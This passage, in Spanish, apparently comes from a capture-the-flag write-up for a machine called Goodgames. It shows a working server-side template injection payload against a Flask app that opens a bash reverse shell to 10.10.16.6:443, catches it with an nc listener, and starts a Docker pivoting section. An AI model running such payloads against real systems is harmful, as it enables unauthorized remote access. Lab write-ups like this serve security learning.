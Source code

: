 Una vez confirmada la vulnerabilidad de SSTI, se intentó su explotación para obtener una reverse shell.
Se utilizó la siguiente carga útil para ejecutar comandos del sistema:
```bash
{{ namespace.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/10.10.16.6/443 0>&1"').read() }}
```

![11](/assets/img/machines/Goodgames/11.jpeg)

Antes de aplicar los cambios, dejé mi equipo en escucha con nc

![12](/assets/img/machines/Goodgames/12.jpeg)

## Docker pivoting
Luego de haber obtenido acceso a la máquina, navegué hasta la raíz del sistema revelando la presencia del archivo oculto .dockerenv, lo cual indica que la aplicación Flask se está ejecutando dentro de un contenedor Docker.
